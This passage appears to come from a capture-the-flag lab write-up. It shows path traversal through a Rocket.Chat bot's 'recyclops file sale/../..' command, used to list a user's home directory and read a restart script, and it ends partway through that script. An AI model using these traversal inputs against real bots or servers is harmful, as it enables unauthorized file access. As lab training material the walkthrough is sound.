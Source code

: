 ```
drwxr-xr-x 2 dwight dwight 27 Sep 15 2021 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
Fetching the directory listing of sale/../..
total 64
drwx------ 12 dwight dwight 323 Apr 1 16:26 .
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 9 Apr 1 16:26 .dbshell
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 3 dwight dwight 69 Apr 1 16:26 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
-rwxrwxr-x 1 dwight dwight 25152 Apr 1 14:22 jeTNike
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxrwxr-x 2 dwight dwight 27 Apr 1 14:22 lol
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 29 Apr 1 16:07 .ssh
-r-------- 1 dwight dwight 33 Apr 1 14:12 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
```

There's the user flag, let's see if we can get it.

```
4:56 PM
recyclops file sale/../../user.txt
Bot
4:56 PM
Access denied. 
```

Nope! Let's see what else is there.

I see a `bot_restart.sh` script. Let's check it with `recyclops file sale/../../bot_restart.sh`

```
 <!=====Contents of file sale/../../bot_restart.sh=====>
#!/bin/bash

# Cleaning hubot's log so that it won't grow too large.
echo "" > /home/dwight/hubot/.hubot.log


# For starting the bot 20-ish (10+20) seconds late, when the server is restarted.
# This is because MongoDB and Rocket-Chat server needs some time to startup properly
sleep 10s

# Checks if Hubot is running every 10s
while [ 1 ];
do
sleep 20s
alive=$(/usr/sbin/ss -tulnp|grep 8000);
if [[ -n $alive ]]; then
err=$(grep -i 'unhandled-rejections=strict' /home/dwight/hubot/.hubot.log)
if [[ -n $err ]]; then
# Restarts bot
echo "[-] Bot not running!
date";
#Killing the old process
```